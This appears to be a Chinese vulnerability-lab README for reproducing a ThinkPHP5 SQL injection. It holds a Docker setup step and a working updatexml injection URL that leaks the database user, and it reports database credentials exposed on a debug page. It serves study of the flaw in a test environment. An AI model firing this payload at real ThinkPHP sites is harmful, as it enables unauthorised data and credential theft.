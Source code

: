 # ThinkPHP5 SQL 注入漏洞 && 敏感信息泄露

## 漏洞描述

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## 环境搭建

运行环境：

```
docker-compose up -d
```

启动后，访问 `http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞复现

访问 `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![image-20220302151819426](images/202203021518532.png)

当然，这是一个比较鸡肋的 SQL 注入漏洞。但通过 DEBUG 页面，我们找到了数据库的账号、密码：

![image-20220302151841408](images/202203021518495.png)

这又属于一个敏感信息泄露漏洞。
